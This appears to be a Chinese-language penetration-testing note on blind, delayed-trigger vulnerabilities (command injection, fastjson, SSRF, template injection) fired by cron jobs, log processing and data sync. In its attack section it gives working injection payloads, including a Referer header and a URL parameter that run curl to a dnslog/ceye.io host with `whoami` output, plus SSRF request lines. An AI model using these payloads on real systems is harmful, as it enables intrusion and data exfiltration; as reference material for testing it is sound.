

隐式高危
========================================

简介
----------------------------------------
漏洞不会在当前请求响应实时执行payload，而在后面的其它任务，其它系统调用触发的漏洞，是盲攻击的一种。

漏洞基调
----------------------------------------
+ 围绕dnslog回显设计POC
+ payload基调：多样式使用`` $() ; @ http
+ 执行payload的服务器必须能够出网

原理和场景
----------------------------------------
+ 定时任务调用
+ log处理
+ 监控、数据切割汇总展示
+ 数据同步
+ 文件同步

漏洞类型
----------------------------------------
+ 隐式shell的rce
+ 隐式fastjson
+ 隐式SSRF
+ 隐式模版注入

攻击方式
----------------------------------------

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ referer字段payload：``Referer: $(curl http://xxx.dnslog.info/?whoami=`whoami`)``
+ 特点：可能并不会立即执行，每天凌晨大约0点到2点执行

shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ payload: ``http://xxx.com/api.php?city=%E5%8C%97;curl http://ip.port.iqe0k7.ceye.io/`whoami```

ssrf
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ payload: ``GET /@flag.ceye.io HTTP/1.1``
+ payload: ``GET http://xxx.dnslog.ceye.io HTTP/1.1``
+ 这里可能都是延迟触发的，所以要用持久的dnslog

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	|hiderce1|





